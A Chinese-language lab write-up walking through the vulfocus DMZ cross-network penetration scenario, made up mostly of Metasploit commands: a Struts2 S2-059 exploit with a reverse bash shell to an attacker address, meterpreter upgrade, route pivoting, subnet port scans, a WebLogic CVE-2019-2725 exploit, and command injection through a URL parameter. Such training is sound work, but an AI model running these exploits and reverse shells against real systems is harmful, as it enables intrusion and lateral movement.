

# 场景化漏洞攻防初体验

以 vulfocus 提供的【跨网段渗透(常见的dmz)】为例

可能是全网第一份关于该场景的公开 WriteUp 。

## 场景安装与配置

- 场景管理 - 从【场景商店】下载 跨网段渗透(常见的dmz) - 发布
- 进入【场景】，启动场景
- 阅读场景说明，找到场景入口地址，准备开始【跨网段渗透】体验

### 捕获指定容器的上下行流量


# 建议放到 tmux 会话

```
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
攻破靶标1
metasploit 基础配置
BASH
```

# 更新 metasploit
```
sudo apt install -y metasploit-framework
```
# 初始化 metasploit 本地工作数据库
```
sudo msfdb init
```
# 启动 msfconsole
```
msfconsole
```

# 确认已连接 pgsql
```
db_status
```
# 建立工作区
```
workspace -a demo
信息收集之服务识别与版本发现

```

# 通过 vulfocus 场景页面看到入口靶标的开放端口
```
db_nmap -p 29551 192.168.56.216 -n -A
```

# 漏洞利用过程
```
search exp in metasploit
search struts2 type:exploit
```

# 查看 exp 详情
```
info 2
```

# 完善搜索关键词
```
search S2-059 type:exploit
```

# 使用 exp
```
use 0
show options
```

# 配置 payload
```
set payload payload/cmd/unix/reverse_bash
set RHOSTS 192.168.56.216
set rport 29551
set LHOST 192.168.56.214
```


# 执行攻击
```
run -j
```

# 查看会话列表
```
sessions -l
```

# 进入会话
```
sessions -i 1
id
```
# 获取 flag-1
```
ls /tmp
```

# 建立立足点并发现靶标2-4
会话升级
```
search meterpreter type:post
use post/multi/manage/shell_to_meterpreter
set lhost 192.168.56.214
set session 1
run -j
```

网络侦查

# 查看路由表
```
route
```

# 添加路由
```
run autoroute -s 192.170.84.0/24
```

# 端口扫描
```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.170.84.2-254
set rport 7001
run -j
```

# 攻破靶标2-4

# 漏洞利用
```
search cve-2019-2725
use 0
set RHOSTS 192.170.84.2
run -j
```

# 获取 flag
```
sessions -c "ls /tmp" -i 3,4,5
```


# 发现终点靶标

# 网络接口侦查
```
sessions -c "ifconfig" -i 3,4,5
```


# 端口扫描新子网

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.169.85.2-254
set ports 80
run
拿到终点靶标上的 Flag
```

# 通过跳板机访问靶标
```
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
```

停止抓包并分析
进入 vulfocus 所在虚拟机的 GUI 桌面，使用 Wireshark 打开捕获到的数据包
通过 scp 将捕获到的数据包拷贝到宿主机上使用 Wireshark 分析
